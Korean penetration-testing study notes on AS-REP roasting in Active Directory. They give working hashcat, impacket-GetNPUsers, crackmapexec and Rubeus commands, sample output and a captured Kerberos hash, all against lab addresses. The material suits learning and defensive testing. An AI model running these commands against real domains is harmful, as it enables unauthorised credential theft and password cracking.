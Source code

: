 커버로스 인증 첫 단계인 AS-REQ는 preauthentication이 없으면 공격자는 모든 AD 사용자를 대신하여 DC에 AS-REQ를 전송 가능함.

AS-REP로 들어오는 응답은 hashcat으로 크랙 가능(**18200**)
### AS-REP Crack (hashcat)
```bash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


AS-REP 로스팅은
→ impacket-GetNPUsers (kali)
→ crackmapexec (kali)
→ Rubeus.exe (win) - **사전인증 필요**
를 사용하여 할 수 있다.

### impacket-GetNPUsers
```powershell
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
#Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
#
#Password:
#Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
#----  --------  --------------------------  --------------------------  --------
#dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 
```

### impacket-GetNPUsers (BruteForce)
```python
impacket-GetNPUsers -dc-ip 10.10.158.152 oscp.exam/ -usersfile users.txt
```

### crackmapexec
```powershell
cme ldap 192.168.40.150 -u low -p 'Password123!' --asreproast roast.txt
```

### Rubeus.exe (사전 인증 필요)
```powershell
.\\Rubeus.exe asreproast /nowrap

#...
#$krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```


